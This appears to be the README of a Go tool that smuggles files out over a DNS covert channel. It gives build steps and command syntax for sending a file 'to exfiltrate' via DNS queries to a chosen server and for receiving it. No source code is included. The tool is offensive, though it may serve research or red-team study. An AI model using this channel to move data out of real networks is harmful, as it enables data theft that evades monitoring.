 # DNS-Covert-Channel
Due to an implementation bug this cover channel can only support
the transportation of 12 bytes per 1000 domain names.

Domain names are currently hardcoded in, no need to supply your own
## Use
To compile run go build -o main

### Sending
Proper syntax is ./main --fileIn <filepath> --dns <IP>
- filepath points to the file to exfiltrate
- IP is the DNS server to query

### Receiving
Proper syntax is ./main --fileOut <filepath> --dns <IP>
- filepath is the location to save the output
- IP is the DNS server to query